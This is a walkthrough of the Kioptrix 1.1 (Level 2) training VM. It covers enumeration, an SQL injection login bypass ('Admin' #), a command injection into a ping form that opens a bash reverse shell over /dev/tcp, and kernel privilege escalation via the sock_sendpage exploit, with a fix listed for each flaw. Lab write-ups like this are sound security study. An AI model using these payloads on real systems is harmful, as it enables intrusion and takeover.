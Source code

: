 ```yaml
---
layout: post
title: "Kioptrix 1.1 (Level 2) Walkthrough"
date: 2019-08-30
---
```


Although the principal is the same, Kioptrix level 2 provides a different set of challenges from level one.
Whereas level one had vulnerable mod_ssl version and kernel exploit, level 2 (1.1) is vulnerable to SQL Injection, command execution and different kernel exploit.

# **Vulnerable System** : Kioptrix 1.1 (Level 2)

**Operating System** : CentOS 4.5

**Kernel** : 2.6.9

**Vulnerability Exploited** : SQL Injection

**Exploit Used** : N/A

**Proof of Concept Code** : Admin' #

**Vulnerability Explained** :  The Remote System Administration Login was vulnerable to SQL injection, which granted access to Remote System Administration Web Console.

**Vulnerability fix** : When making a login page that connects to MySQL database, either use dynamic queries or make sure that user&#39;s input is validated.

**Severity: Low**

----------------------------------------------------------------------------------------------------------------------------------------

**Vulnerability Exploited** : Command Execution

**Exploit Used** : N/A

**Proof of Concept Code** : 192.168.20.144 && bash -i >& /dev/tcp/192.168.20.144/443 0>&1

**Vulnerability Explained** :  The Remote System Administration Web Console page was vulnerable to command execution, which resulted in gaining low privilege shell.

**Vulnerability fix** : User input should be validated and only IP address should be allowed to be entered.

**Severity** : **Medium**

----------------------------------------------------------------------------------------------------------------------------------------

**Privilege Escalation Vulnerability** : Linux Kernel 'sock_sendpage()' NULL Pointer Dereference

**Exploit Used** : Linux Kernel 2.4.x/2.6.x (CentOS 4.8/5.3 / RHEL 4.8/5.3 / SuSE 10 SP2/11 / Ubuntu 8.10) (PPC) - &#39;sock\_sendpage()&#39; Local Privilege Escalation

**Proof of Concept Code** : [https://www.exploit-db.com/exploits/9545](https://www.exploit-db.com/exploits/9545)

**Privilege Escalation Vulnerability Explained:** Linux kernel vulnerability allows to gain administrative privileges with specifically crafted executable.

**Vulnerability fix** : Update Linux kernel to the newest version possible. Patches available from the vendor, for more information [https://access.redhat.com/security/cve/cve-2009-2692](https://access.redhat.com/security/cve/cve-2009-2692).

**Severity** : **High**

----------------------------------------------------------------------------------------------------------------------------------------

## Methodology

    * Host Discovery (arpscan)

    * Port Scanning (nmap)

    * Web Port Enumeration (nikto, gobuster, browser)

    * Discovered MySQL Injection Vulnerability (browser)

    * Discovered Command Execution Vulnerability (browser)

    * Low Privilege Shell Gained (netcat)

    * Privilege Escalation Enumeration (uname, cat /etc/\*-release)

    * Discovered Appropriate Exploit 'sock\_sendpage()' Local Privilege Escalation 
      (searchsploit/exploit-db)

    * Compiled the Exploit and Gained Administrative Privileges

----------------------------------------------------------------------------------------------------------------------------------------

## Arp-scan

Discovering the vulnerable system with arp-scan -l:

 ![](https://github.com/lifesfun101/Offensive-Security/blob/master/Walkthroughs/Kioptrix%20Level%202/Images/arp-scan.png?raw=true)

## Nmap

Nmap all ports scan:

 ![](https://github.com/lifesfun101/Offensive-Security/blob/master/Walkthroughs/Kioptrix%20Level%202/Images/nmap_allportsd.png?raw=true)

\*Note: Nmap -p- flag scans all TCP ports from 1 to 65535.

Nmap version, default script and aggressive scan:

 ![](https://github.com/lifesfun101/Offensive-Security/blob/master/Walkthroughs/Kioptrix%20Level%202/Images/nmap_sv.png?raw=true)
 ![](https://github.com/lifesfun101/Offensive-Security/blob/master/Walkthroughs/Kioptrix%20Level%202/Images/nmap_sv1.png?raw=true)

-p specifies the ports to scan

-sV flag attempts to determine service and version information for given ports

-sC flag utilizes a default set of nmap scripts



## Port 80 Enumeration

### Nikto

 ![](https://github.com/lifesfun101/Offensive-Security/blob/master/Walkthroughs/Kioptrix%20Level%202/Images/nikto.png?raw=true)

### Gobuster

 ![](https://github.com/lifesfun101/Offensive-Security/blob/master/Walkthroughs/Kioptrix%20Level%202/Images/gobuster.png?raw=true)

  *Note: Gobuster discovers hidden web directories. New versions of gobuster come with 3 different modes: dns, dir and vhost. In this case dir is used. -u flag is used to specify the url and -w flag is used to specify the wordlist to be used.

### Browser

The browser presents us with a login page:

 ![](https://github.com/lifesfun101/Offensive-Security/blob/master/Walkthroughs/Kioptrix%20Level%202/Images/browser.png?raw=true)


## Low Privilege Exploitation

#### SQL Injection

The login page is vulnerable to SQL injection:

 ![](https://github.com/lifesfun101/Offensive-Security/blob/master/Walkthroughs/Kioptrix%20Level%202/Images/sql_injection.png?raw=true)

#### Command Execution

Once logged it, there seems to be a ping command running from the web interface:

 ![](https://github.com/lifesfun101/Offensive-Security/blob/master/Walkthroughs/Kioptrix%20Level%202/Images/command%20execution.png?raw=true)

 ![](https://github.com/lifesfun101/Offensive-Security/blob/master/Walkthroughs/Kioptrix%20Level%202/Images/command%20execution1.png?raw=true)

With the correct syntax it's possible to append another command to the ping command to execute the reverse shell as shown below:

192.168.20.144 && bash -i >& /dev/tcp/192.168.20.144/443 0>&1

 ![](https://github.com/lifesfun101/Offensive-Security/blob/master/Walkthroughs/Kioptrix%20Level%202/Images/command%20execution3.png?raw=true)

### Privilege Escalation Enumeration

Obtaining low privilege shell and determining the system&#39;s operating system and kernel:

 ![](https://github.com/lifesfun101/Offensive-Security/blob/master/Walkthroughs/Kioptrix%20Level%202/Images/low%20privilege.png?raw=true)

python -c "import pty;pty.spawn('/bin/bash')" command upgrades the "dumb" web shell to fully interactive tty shell. With out this, commands such as su – will not work.

The operating system is CentOS release 4.5 and the kernel version is 2.6.9

### Vulnerability Identification

#### Searchsploit:

Searching exploit-db for suitable exploit:

 ![](https://github.com/lifesfun101/Offensive-Security/blob/master/Walkthroughs/Kioptrix%20Level%202/Images/searchsploit.png?raw=true)

 ![](https://github.com/lifesfun101/Offensive-Security/blob/master/Walkthroughs/Kioptrix%20Level%202/Images/searchsploit2.png?raw=true)

## Privilege Escalation Exploitation

Downloading the exploit to the victim machine.

 ![](https://github.com/lifesfun101/Offensive-Security/blob/master/Walkthroughs/Kioptrix%20Level%202/Images/downloading.png?raw=true)

Compiling the exploit, executing the exploit and gaining root privileges:

 ![](https://github.com/lifesfun101/Offensive-Security/blob/master/Walkthroughs/Kioptrix%20Level%202/Images/compiling.png?raw=true)
